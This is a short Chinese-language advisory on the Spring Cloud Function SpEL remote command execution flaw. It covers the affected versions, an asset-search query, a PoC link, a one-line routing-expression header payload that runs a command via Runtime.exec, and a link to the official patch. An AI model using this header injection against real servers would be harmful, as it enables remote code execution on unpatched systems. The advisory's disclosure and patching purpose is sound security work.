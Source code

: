 ```yaml
---
title: Spring_Cloud_Function_SPEL远程代码执行
---
```


# Spring Cloud Function SPEL 远程命令执行漏洞

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，通过对传输细节和基础架构进行抽象，为开发人员保留熟悉的开发工具和开发流程，使开发人员专注在实现业务逻辑上，从而提升开发效率。

访问Spring Cloud Function的 HTTP请求头中存在 spring.cloud.function.routing-expression参数，其 SpEL表达式可进行注入攻击，并通过 StandardEvaluationContext解析执行。最终，攻击者可通过该漏洞进行远程命令执行。

## 风险等级

高

## 影响版本

```
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2  
```

注：部分版本进行特定配置的动态路才会受该漏洞影响！

## 资产确定

```
app="vmware-SpringBoot-framework“
```

## 漏洞复现

**POC**

https://github.com/hktalent/spring-spel-0day-poc

```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Spring-1.jpg)

## 修复建议

目前Spring Cloud官方已经推出补丁修复漏洞，受影响用户可以通过官方补丁进行修复。

官方链接：

https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f
